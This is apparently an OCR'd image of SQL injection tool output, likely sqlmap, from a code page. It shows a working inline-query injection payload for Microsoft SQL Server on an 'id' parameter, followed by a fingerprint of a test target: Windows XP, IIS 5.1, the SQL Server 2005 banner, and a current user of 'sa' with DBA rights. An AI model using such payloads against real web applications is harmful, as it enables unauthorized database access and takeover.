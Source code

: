 ```
????title: "Microsoft SQL Server/Sybase inline queries"
????Payload: id=(SELECT CHAR(58) CHAR(118) CHAR(114) CHAR(100) CHAR(58) (SELECT (CASE WHEN (6382=6382) THEN CHAR(49) ELSE CHAR(48) END)) CHAR(58) CHAR(111) CHAR(109) CHAR(113) CHAR(58))
---
web server operating system: Windows XP
web application technology: ASP, Microsoft IIS 5.1
back-end DBMS operating system: Windows XP Service Pack 2
back-end DBMS: Microsoft SQL Server 2005
banner:
---
Microsoft SQL Server 2005 - 9.00.1399.06 (Intel X86) 
????Oct 14 2005 00:33:37 
????Copyright (c) 1988-2005 Microsoft Corporation
????Express Edition on Windows NT 5.1 (Build 2600: Service Pack 2)
---
current user:????'sa'
current database:????'testdb'
current user is DBA:????True

[*] shutting down at 11:25:52 
```